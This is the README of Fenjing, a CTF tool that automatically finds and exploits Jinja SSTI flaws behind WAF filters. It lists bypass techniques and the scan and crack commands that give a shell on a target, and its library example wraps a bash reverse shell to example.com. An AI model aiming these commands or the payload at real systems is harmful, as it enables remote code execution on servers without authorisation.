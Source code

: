 ![焚靖](assets/fenjing.webp)

> Bypass the WAF without knowing WAF

焚靖是一个针对CTF比赛中Jinja SSTI绕过WAF的全自动脚本，可以自动攻击给定的网站或接口。

## 演示

![demo](assets/demo.webp)

## 主要特性

- 集成了大部分CTF中的SSTI WAF绕过技巧
- 全自动扫描HTML页面中的form元素并进行攻击
- 全自动分析网站的WAF并生成相应的payload
- 方便的网页界面/命令行界面

## 快速上手

在以下方法中选择一种

### 使用pip安装运行

```shell
pip install fenjing
python -m fenjing webui
```

### 下载并运行docker镜像

```shell
docker pull marven11/fenjing
docker run --net host -it marven11/fenjing webui
```

### 手动安装

```shell
git clone https://github.com/Marven11/Fenjing
cd Fenjing
python -m pip install -r requirements.txt
python -m fenjing webui
```

### 手动构建Docker镜像

```shell
docker build -t fenjing .
docker run -it --net host fenjing webui
```

## 特性

支持绕过：

- `'`和`"`
- 绝大多数敏感关键字
- 任意阿拉伯数字
- `_`
- `[`
- `+`
- `-`
- `~`
- `{{`

### 自然数绕过：

支持绕过0-9的同时绕过加号或减号

支持全角数字和特定数字相加减两种绕过方式

### `'%c'`绕过:

支持绕过引号，`g`和`lipsum`

### 下划线绕过：

支持`(lipsum|escape|batch(22)|list|first|last)`
- 其中的数字22支持上面的数字绕过

### 任意字符串：

支持绕过引号，任意字符串拼接符号，下划线和任意关键词

支持以下形式

- `'str'`
- `"str"`
- `"\x61\x61\x61"`
- `dict(__class__=cycler)|join`
    - 其中的下划线支持绕过
- `'%c'*3%(97,97, 97)`
    - 其中的`'%c'`也支持上面的`'%c'`绕过
    - 其中的所有数字都支持上面的数字绕过

### 属性：

- `['aaa']`
    - 其中的字符串支持上面的任意字符串绕过
- `.aaa`
- `|attr('aaa')`
    - 其中的字符串也支持上面的任意字符串绕过

### Item

- `['aaa']`
    - 其中的字符串支持上面的任意字符串绕过
- `.aaa`
- `.__getitem__('aaa')`
    - 其中的`__getitem__`支持上面的属性绕过
    - 其中的字符串也支持上面的任意字符串绕过


## 详细使用

### 作为命令行脚本使用

- webui: 网页UI
  - 顾名思义，网页UI
  - 默认端口11451
- scan: 扫描整个网站
  - 从网站中根据form元素提取出所有的表单并攻击
  - 扫描成功后会提供一个模拟终端或执行给定的命令
  - 示例：`python -m fenjing scan --url 'http://xxx/'`
- crack: 对某个特定的表单进行攻击
  - 需要指定表单的url, action(GET或POST)以及所有字段(比如'name')
  - 攻击成功后也会提供一个模拟终端或执行给定的命令
  - 示例：`python -m fenjing crack --url 'http://xxx/' --method GET --inputs name`
- get-config: 对某个特定的表单进行攻击，但是只获取flask config
  - 参数大致上和crack相同
```
Usage: python -m fenjing scan [OPTIONS]

Options:
  -u, --url TEXT       需要扫描的URL
  -e, --exec-cmd TEXT  成功后执行的shell指令，不填则进入交互模式
  --interval FLOAT     每次请求的间隔
  --user-agent TEXT    请求时使用的User Agent
  --help               Show this message and exit.

Usage: python -m fenjing crack [OPTIONS]

Options:
  -u, --url TEXT       form所在的URL
  -a, --action TEXT    form的action，默认为当前路径
  -m, --method TEXT    form的提交方式，默认为POST
  -i, --inputs TEXT    form的参数，以逗号分隔
  -e, --exec-cmd TEXT  成功后执行的shell指令，不填则成功后进入交互模式
  --interval FLOAT     每次请求的间隔
  --user-agent TEXT    请求时使用的User Agent
  --help               Show this message and exit.

Usage: python -m fenjing get-config [OPTIONS]

  攻击指定的表单，并获得目标服务器的flask config

Options:
  -u, --url TEXT     form所在的URL
  -a, --action TEXT  form的action，默认为当前路径
  -m, --method TEXT  form的提交方式，默认为POST
  -i, --inputs TEXT  form的参数，以逗号分隔
  --interval FLOAT   每次请求的间隔
  --user-agent TEXT  请求时使用的User Agent
  --help             Show this message and exit.
```

### 作为python库使用

参考[example.py](example.py)

```python
from fenjing import exec_cmd_payload, config_payload
import logging
logging.basicConfig(level = logging.INFO)

def waf(s: str):
    blacklist = [
        "config", "self", "g", "os", "class", "length", "mro", "base", "lipsum",
        "[", '"', "'", "_", ".", "+", "~", "{{",
        "0", "1", "2", "3", "4", "5", "6", "7", "8", "9",
        "０","１","２","３","４","５","６","７","８","９"
    ]
    return all(word in s for word in blacklist)

if __name__ == "__main__":
    shell_payload, _ = exec_cmd_payload(waf, "bash -c \"bash -i >& /dev/tcp/example.com/3456 0>&1\"")
    config_payload = config_payload(waf)

    print(f"{shell_payload=}")
    print(f"{config_payload=}")

```

## 项目结构

[![](https://mermaid.ink/img/pako:eNp1U01TwyAQ_SsMM-2p-QM5eHA86kU9aTqZLVkaRgKRD2vt9L8LwZQkrRwYeLzdfbyFE2W6QVpSLvWBtWAceb2vFAnD-t3eQN8S74S0JIFxMC21ET-YEYOfHq1DkyGuTTcNUdblbVqhapaVLJpCqJCIA8NpSSneOdiSQxEOO6FARmybGQfc-cjZRQ4XBrn-TuB2loYUxV3CLyLIQkWUbnPQakWakI85oRV5fpyUBF5zr1i9RzW_eM0MsI-pHZaBqr2Rt3lJ1FW6waCFuB6OUkMz0ZfFjZ2LI7hYf4GZ8GyLUtZ_8bPWcLG_xrnP7PkNb4LzNGQ9LzdccJlxAKf79UL15YGMfbv2djyZ-5vmocv_xC3cvyUvWk83tAvvDUQTvsgphlbUtdhhRcuwVOidAVnRSp0DFbzTL0fFaOmMxw31fQMOHwSE1nU0PExpA9qDetM677ERTpun9A2H33j-BR2iIbY?type=png)](https://mermaid.live/edit#pako:eNp1U01TwyAQ_SsMM-2p-QM5eHA86kU9aTqZLVkaRgKRD2vt9L8LwZQkrRwYeLzdfbyFE2W6QVpSLvWBtWAceb2vFAnD-t3eQN8S74S0JIFxMC21ET-YEYOfHq1DkyGuTTcNUdblbVqhapaVLJpCqJCIA8NpSSneOdiSQxEOO6FARmybGQfc-cjZRQ4XBrn-TuB2loYUxV3CLyLIQkWUbnPQakWakI85oRV5fpyUBF5zr1i9RzW_eM0MsI-pHZaBqr2Rt3lJ1FW6waCFuB6OUkMz0ZfFjZ2LI7hYf4GZ8GyLUtZ_8bPWcLG_xrnP7PkNb4LzNGQ9LzdccJlxAKf79UL15YGMfbv2djyZ-5vmocv_xC3cvyUvWk83tAvvDUQTvsgphlbUtdhhRcuwVOidAVnRSp0DFbzTL0fFaOmMxw31fQMOHwSE1nU0PExpA9qDetM677ERTpun9A2H33j-BR2iIbY)


